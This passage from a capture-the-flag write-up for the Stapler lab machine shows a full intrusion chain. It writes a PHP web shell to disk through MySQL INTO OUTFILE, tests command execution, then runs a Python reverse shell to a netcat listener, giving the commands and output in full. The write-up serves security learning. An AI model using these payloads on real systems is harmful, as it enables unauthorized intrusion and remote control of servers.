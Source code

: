 Now we can write a PHP web shell to disk at the path _/var/www/https/blogblog/wp-content/uploads/shell.php_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/stapler]
└─$ mysql -u root -pplbkac -h 192.168.218.148

MySQL [(none)]> use wordpress;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [wordpress]> SELECT "<?php echo shell_exec($_GET['cmd']);?>" INTO OUTFILE "/var/www/https/blogblog/wp-content/uploads/shell.php";
Query OK, 1 row affected (0.120 sec)

```

Now test the PHP web shell to make sure we have code execution.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/stapler]
└─$ curl -k -s https://192.168.218.148:12380/blogblog/wp-content/uploads/shell.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

Generate a Python reverse shell script using _revshellgen_ and URL encode

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/stapler]
└─$ revshellgen -i 192.168.45.217 -p 9001 -t python

[+] Reverse shell command:

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.217",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

I used the _urlencoder.org_ site to do the URL encoding.

![encode](../../../assets/images/ctfs/proving_grounds/stapler/encode.png)

Execute the payload and get reverse shell on our netcat listener.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/stapler]
└─$ curl -k "https://192.168.218.148:12380/blogblog/wp-content/uploads/shell.php?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.45.217%22%2C9001%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27%20"

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/stapler]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.218.148] 60856
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)


```
